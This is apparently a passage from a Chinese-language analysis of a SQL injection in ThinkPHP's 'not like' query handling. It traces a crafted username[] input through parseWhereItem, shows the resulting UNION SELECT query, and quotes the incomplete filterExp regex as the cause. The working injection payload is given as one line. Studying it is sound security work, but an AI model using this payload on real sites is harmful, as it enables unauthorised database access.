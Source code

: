 ```
string(14) "asdf TEST asdf"
```

>注意遗留写法与当前写法的区别

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204102024249.png)

---

原始输入为`username[0]=not like&username[1][0]=asdf&username[1][1]=asdf&username[2]=) union select 1,user(),3--+`

`parseWhereItem`中`$field`为`"username"`,`$val`为`username`数组

经过`list($exp, $value) = $val;`后得到`$exp="not like"`,`$value`为`username[1]`这一数组

经过操作符检测`$exp = $this->exp[$exp];`后`$exp`转化为`NOT LIKE`

在`NOT LIKE`的模糊匹配中,经过`foreach`后得到的`$array`为

```
1 = {} "`username` NOT LIKE 'asdf'"
0 = {} "`username` NOT LIKE 'asdf'"
```

`implode($array, ' ' . strtoupper($logic) . ' ')`后得到的字符串为

```
`username` NOT LIKE 'asdf' ) UNION SELECT 1,USER(),3--  `username` NOT LIKE 'asdf'
```

最终的查询语句为

```
SELECT * FROM `users` WHERE  (`username` NOT LIKE 'asdf' ) UNION SELECT 1,USER(),3--  `username` NOT LIKE 'asdf') 
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204102037271.png)

## 漏洞产生原因

```php
#thinkphp/library/think/Request.php
    /**
     * 过滤表单中的表达式
     * @param string $value
     * @return void
     */
    public function filterExp(&$value)
    {
        // 过滤查询特殊字符
        if (is_string($value) && preg_match('/^(EXP|NEQ|GT|EGT|LT|ELT|OR|XOR|LIKE|NOTLIKE|NOT BETWEEN|NOTBETWEEN|BETWEEN|NOTIN|NOT IN|IN)$/i', $value)) {
            $value .= ' ';
        }
        // TODO 其他安全过滤
    }
```
